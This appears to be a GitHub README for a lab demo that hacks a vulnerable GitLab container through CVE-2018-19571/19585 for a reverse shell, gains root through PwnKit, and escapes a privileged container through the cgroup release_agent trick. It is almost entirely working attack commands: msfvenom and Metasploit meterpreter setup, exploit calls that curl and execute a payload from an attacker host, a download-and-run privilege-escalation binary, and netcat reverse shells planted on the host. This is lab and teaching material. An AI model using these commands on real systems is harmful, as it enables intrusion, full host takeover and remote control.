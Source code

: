 # Hack gitlab with container escape

- Demo consists of the follwoing parts:
  - Hack gitlab with CVE-2018-19571 + CVE-2018-19585 to get a reverse shell
  - get root rights within the container via CVE-2021-4034
  - abuse the misconfiguration --privileged of container

![Attack picture](images/attack-graph.png)

## Docker on Ubuntu 20.04 LTS

- i used the following vagrant machine

```
config.vm.define "ub2004" do |ub2004|
  ub2004.vm.provider "virtualbox" do |vb|
    vb.memory = "4096"
  end
  ub2004.vm.box = "ubuntu/focal64"
  ub2004.vm.box_version = "20211021.0.0"
  ub2004.vm.network :private_network, ip: "192.168.56.251"
end
```

- install the following stuff

```bash
apt update && apt remove -y netcat-openbsd && apt install -y netcat-traditional
```

- install docker

```bash
apt install -y ca-certificates curl gnupg lsb-release
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg
echo "deb [arch=$(dpkg --print-architecture) signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | sudo tee /etc/apt/sources.list.d/docker.list > /dev/null
apt update
apt install -y docker-ce docker-ce-cli containerd.io docker-compose
usermod -a -G docker vagrant
```

- then your docker daemon is in [Rootless mode](https://docs.docker.com/engine/security/rootless/). you have to execute the following commands

```bash
apt install -y uidmap
dockerd-rootless-setuptool.sh uninstall --force
```

- build the container

```bash
docker build -t gitlab-escape -f ./Dockerfile .
```

- start the GitLab application via docker-compose

```bash
docker-compose up
```

- create a new GitLab user (mondoo, mondoo.com)

![GitLab user register](images/gitlab-user-register.png)

- create the meterpreter

```bash
msfvenom -p linux/x86/meterpreter_reverse_tcp LHOST=192.168.56.1 LPORT=4242 -f elf > met
```

- start the metasploit framework

```bash
msfconsole -q -x 'use exploit/multi/handler;set payload linux/x86/meterpreter_reverse_tcp;set lhost 0.0.0.0; set lport 4242;run'
```

- start the on liner web server

```bash
ruby -run -ehttpd . -p8001
```

- execute the GitLab exploit

```bash
python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'curl -vk http://192.168.56.1:8001/met -o /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c 'chmod 777 /tmp/met'

python gitlab-msf.py -u mondoo -p mondoo.com -g http://192.168.56.251 -c '/tmp/met'
```

- now you have a reverse meterpreter connection, type `shell` to get a bash

- get root within the GitLab container

```bash
id
uid=998(git) gid=998(git) groups=998(git)

cd /tmp

curl -vkO https://pwnkit.s3.amazonaws.com/priv-es

chmod a+x ./priv-es

./priv-es

id
uid=0(root) gid=0(root) groups=0(root),998(git)
```

- to execute the container escape, at first start a new netcat listner

```bash
nc -lvnp 4243
```

- execute the following commands in your reverse root shell

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "nc -e /bin/bash 192.168.56.1 4243" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

## kubernetes cluster

If minikube is used, you can easily start and build the container locally:

```bash
# NOTE: if minikube is used with docker desktop, you need to configure docker desktop before
minikube start --memory 4096 --cpus 4
eval $(minikube docker-env)
docker build -t docker.io/hacklab/gitlab-escape -f ./Dockerfile .
```

Deploy Gitlab into Minikube

```
kubectl apply -f gitlab-deployment.yaml
```

Forward the pod ports locally:

```bash
kubectl get pods
NAME                                       READY   STATUS    RESTARTS   AGE
gitlab-container-escape-7d845f77c6-4twd7   1/1     Running   0          94s

kubectl port-forward gitlab-container-escape-7d7cfb4699-rp6dq 5080:80
kubectl port-forward gitlab-container-escape-7d7cfb4699-rp6dq 50443:443
kubectl port-forward gitlab-container-escape-7d845f77c6-4twd7 5022:22
```

To delete the deployment just run:

```
kubectl delete -f gitlab-deployment.yaml
```

### some ideas

- just execute `ps aux` on the container host

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
sh -c 'echo \$\$ > /tmp/cgrp/x/cgroup.procs'
```

- reverse shell with netcat

```bash
echo "nc -e /bin/bash 192.168.56.1 4243" >> /cmd
```

```bash
echo "$(sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab)" > /tmp/cgrp/release_agent
```

- the pkexec compile exploit can be downloaded from

```
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

# Troubelshooting

- if you execute the following command and get `mount: /tmp/cgrp: permission denied.`

```bash
root@46646bb3e291:/# mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

- then your docker daemon is in [Rootless mode](https://docs.docker.com/engine/security/rootless/). you have to execute the following commands

```bash
mondoo@mondoo:~$ sudo apt-get install -y uidmap
mondoo@mondoo:~$ dockerd-rootless-setuptool.sh uninstall
+ systemctl --user stop docker.service
Failed to stop docker.service: Unit docker.service not loaded.
+ systemctl --user disable docker.service
Failed to disable unit: Unit file docker.service does not exist.
[INFO] Uninstalled docker.service
[INFO] This uninstallation tool does NOT remove Docker binaries and data.
[INFO] To remove data, run: `/usr/bin/rootlesskit rm -rf /home/mondoo/.local/share/docker`
```

- https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1
